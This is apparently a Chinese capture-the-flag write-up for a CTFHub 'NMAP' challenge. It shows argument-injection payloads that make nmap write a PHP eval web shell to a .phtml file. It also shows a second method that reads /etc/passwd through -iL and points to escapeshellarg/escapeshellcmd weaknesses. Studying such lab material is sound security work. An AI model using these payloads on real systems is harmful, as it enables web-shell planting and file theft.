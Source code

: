 ﻿---
title: CTFHub 网鼎杯(一)
categories: 赛题wp
---

![](https://img-blog.csdnimg.cn/20210316223234445.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


## NMAP
- 考点： nmap参数
-  -oG  #可以实现将命令和结果写到文件
-  -iL /etc/passwd 读取任意文件扫描列表
- o /tmp/1 输出扫描结果

 ![](https://img-blog.csdnimg.cn/2021031622331433.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
扫描127.0.0.1

![](https://img-blog.csdnimg.cn/20210316223323563.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
这里使用nmap的一个参数 ：
```
  -oG  #可以实现将命令和结果写到文件
  ```

我们可以写入一句话
```
' <?php eval($_POST[shell]);?> -oG 1.php ' (注意空格)
```

回显Hacker

短标签绕过 `php换为phtml`

所以payload：
```
  '<?=eval($_POST[shell]);?> -oG 1.phtml '
  当单引号前有空格时，直接访问1.phtml，当没有空格时，访问1.phtml\\
```
蚁剑链接即可

![](https://img-blog.csdnimg.cn/2021031622362454.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210316223636740.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
发现当不加空格的时候文件名后为什么会出现`\\` 

见法二

![](https://img-blog.csdnimg.cn/20210316223743447.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
法二：
```
 -iL /etc/passwd 读取任意文件扫描列表
 -o /tmp/1 输出扫描结果
```
这里源码使用了`escapeshellarg` 和 `escapeshellcmd`

[上述两函数的漏洞](https://paper.seebug.org/164/)
